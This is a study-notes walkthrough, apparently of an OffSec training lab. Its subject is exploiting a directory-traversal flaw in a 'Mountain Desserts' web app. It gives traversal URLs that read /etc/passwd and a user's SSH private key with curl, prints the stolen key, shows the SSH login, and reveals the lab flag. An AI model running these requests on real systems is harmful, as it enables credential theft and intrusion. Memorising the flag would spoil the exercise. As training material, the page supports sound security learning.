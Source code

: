 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```

Lab 1 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 offsecwp
>
># Save and exit:
>Ctrl + X
>
># Find a users' SSH private key and copy it beginning at "-----BEGIN OPENSSH PRIVATE KEY-----" and ending at "-----END OPENSSH PRIVATE KEY-----"
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
><!DOCTYPE html>
><html>
>    <head>
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>...
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
># =====================================
>
># Create a file with the stolen SSH private key
>kali@kali:~$ nano dt_key
>
># Paste the SSH private key into dt_key
>
>># Save and exit:
>Ctrl + X
>
># Set the correct permissions by running on the SSH key file
>kali@kali:~$ chmod 400 dt_key
>
># Connect via SSH on port 2222
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>Linux 8a84873ebe9c 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025 x86_64
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}
>offsec@8a84873ebe9c:~$ 
># =====================================
>```
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}

Lab 2 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
>
>```
>
